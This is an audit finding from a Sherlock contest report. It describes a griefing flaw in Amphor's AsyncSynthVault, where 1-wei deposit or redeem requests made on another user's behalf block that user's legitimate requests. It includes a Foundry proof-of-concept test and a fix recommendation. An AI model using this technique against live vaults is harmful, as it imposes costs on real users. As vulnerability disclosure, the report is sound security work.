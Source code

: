 Attractive Tin Carp

medium

# Griefer can force users to spend extra gas to request a redeem or deposit

## Summary
A griefer can request to redeem or deposit 1 wei on behalf of another user in order to force them to spend gas to submit a legitimate request of redeem or deposit.

## Vulnerability Detail
When a vault is closed the protocol allows anybody to [request a redeem](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L477) of shares or [request a deposit](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L439) of assets on behalf of another user. At epoch change, when a vault is settled, an user with a pending redeem request or a pending deposit request cannot request another redeem or deposit until the previous one is claimed.

A griefer can take advantage of this by requesting deposits or redeems of 1 wei or 1 share on behalf of another user, which will be forced to claim it and spending gas in order to be able to submit a legitimate request of deposit or redeem.

### POC
To copy-paste in `TestClaimRedeem.t.sol`:
```solidity
function test_requestDepositGriefingAttack() external {
    address alice = makeAddr("alice");
    address attacker = makeAddr("attacker");
    address vaultOwner = vaultTested.owner();
    IERC20 asset = IERC20(vaultTested.asset());
    deal(address(asset), alice, 15e18);
    deal(address(asset), attacker, 1);

    vm.prank(alice);
    asset.approve(address(vaultTested), type(uint256).max);

    vm.prank(attacker);
    asset.approve(address(vaultTested), type(uint256).max);

    //-> Alice deposits and gets 10e18 shares
    vm.prank(alice);
    vaultTested.deposit(10e18, alice);

    //-> Vault gets closed
    vm.prank(vaultOwner);
    vaultTested.close();

    //-> Attacker requests a deposit of 1 asset with Alice as receiver
    vm.startPrank(attacker);
    vaultTested.requestDeposit(1, alice, attacker, "");
    vm.stopPrank();

    //-> Vault is settled
    vm.startPrank(vaultOwner);
    asset.approve(address(vaultTested), type(uint256).max);
    vaultTested.settle(10e18);
    vm.stopPrank();

    //-> Alice can't request a deposit until the previous one is claimed
    vm.prank(alice);
    vaultTested.requestDeposit(5e18, alice, alice, "");//❌ Reverts
}
```
## Impact
A griefer might force users to spend extra gas to access their funds.

## Code Snippet

## Tool used

Manual Review

## Recommendation
When requesting a redeem or deposit on behalf of another user add a minimum amount that can be redeemed or deposited.